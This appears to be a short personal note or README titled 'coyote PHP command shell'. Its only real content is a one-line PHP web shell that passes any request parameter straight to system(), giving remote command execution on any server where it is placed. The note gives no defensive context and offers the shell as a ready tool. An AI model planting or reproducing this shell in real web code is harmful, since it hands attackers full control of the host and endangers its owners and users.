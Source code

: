 # coyote PHP command shell
```php
<?php system($_REQUEST[0]); ?>
```


` zet/20221003150558/README.md `

# Related


Tags:

    
